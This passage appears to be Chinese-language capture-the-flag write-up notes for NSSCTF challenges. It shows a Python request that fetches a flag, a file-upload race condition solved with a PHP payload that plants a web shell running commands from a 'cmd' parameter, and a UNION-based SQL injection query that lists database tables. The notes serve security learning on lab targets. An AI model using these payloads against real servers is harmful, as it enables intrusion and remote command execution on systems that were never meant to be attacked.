 ```python
import requests

url = "http://node7.anna.nssctf.cn:29822/"
params = {"json": '{"x":"wllm"}'}  # 传递 JSON 格式的 GET 参数
data = {"id": "wllmNB"}  # 传递 POST 参数

response = requests.post(url, params=params, data=data)
print(response.text)  # 期待返回 flag
```

## [FSCTF 2023]加速加速

https://www.nssctf.cn/problem/4629

* 考点：条件竞争
* 工具：yakit/burpsuit

文件再上传到upload目录后才进行条件判定，当不符合条件就会被删除，但是这个过程中可以执行上传的还没有来得及删掉的代码

先抓包分别获取get和排post请求包以便后续修改

post中替换请求体为：

```php
<?php file_put_contents('succ.php', '<?php system($_GET["cmd"]); ?>'); ?>
```

通过yakit多线程上传10000次，然后另开一个fuzz进行多个get请求获取上传的php去执行

然后在网页端对cmd变量进行操作，`ls` 查询到 flag 是在根目录下，直接 `cat`获取

![](./img/加速加速竞争获取flag.png)

---

## [网鼎杯 2018]Fakebook

https://www.nssctf.cn/problem/20

* 考点：sql注入

sql注入考点：

`order by ` 注入 获取数据库查询的列数

联合查询注入

```
SELECT * FROM some_table WHERE no = 0
UNION
SELECT 1, GROUP_CONCAT(table_name), 3, 4
FROM information_schema.tables
WHERE table_schema = database();
```
